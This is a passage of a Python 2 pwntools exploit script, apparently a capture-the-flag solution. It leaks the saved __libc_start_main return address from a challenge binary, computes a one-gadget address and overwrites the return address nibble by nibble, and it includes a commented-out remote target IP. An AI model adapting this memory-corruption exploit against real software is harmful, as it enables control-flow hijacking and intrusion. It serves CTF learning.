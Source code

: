 ```python
    for c in out_of_bounds + jump_libc_ret:
        r.send(c)
        data = r.recvuntil("CONTROLS:")

    #leak return address
    leak = 0
    for i in xrange(8):
        leak |= int(re.findall("[0-9a-f]+ -> [0-9a-f]+", data.replace("\n", ""))[0][:2], 16) << (8*i)
        r.send("d")
        data = r.recvuntil("CONTROLS:")
    print "leak: 0x%x" % leak

    r.send(loop)

    return leak

#move to __libc_start_main return address, write byte and loop
def write_and_loop(r, value):
    r.recvuntil("============ TUTORIAL ============")
    for i in xrange(6):
        r.sendline("")
    r.recvuntil("RENDER SINGLE IMAGE")

    sequence = out_of_bounds + jump_libc_ret + value + loop
    r.send(sequence)
    print sequence


#local
ret_libc_start_main = 0x24223
r = pwn.process("./challenge")
#pwn.gdb.attach(r)

#remote
#ret_libc_start_main = 0x202e1
#r = pwn.remote("195.201.127.177", 9999)

#leak and compute target rip
saved_rip = leak_and_loop(r)
magic_gadget = int(sys.argv[1], 16) + saved_rip - ret_libc_start_main
print "magic_gadget: 0x%x" % magic_gadget

#write target rip
byte_offset = ""
while magic_gadget != saved_rip:
    #write lower nibble
    n = (magic_gadget&0xf) - (saved_rip&0xf)
    print n, magic_gadget&0xf, saved_rip&0xf
    if n > 0:
        write_and_loop(r, byte_offset + "+"*n)
    elif n < 0:
        write_and_loop(r, byte_offset + "-"*-n)
    magic_gadget = magic_gadget >> 4
    saved_rip = saved_rip >> 4

    #write upper nibble
    n = (magic_gadget&0xf) - (saved_rip&0xf)
    print n, magic_gadget&0xf, saved_rip&0xf
    if n > 0:
        write_and_loop(r, byte_offset + "1"*n)
    elif n < 0:
        write_and_loop(r, byte_offset + "2"*-n)
```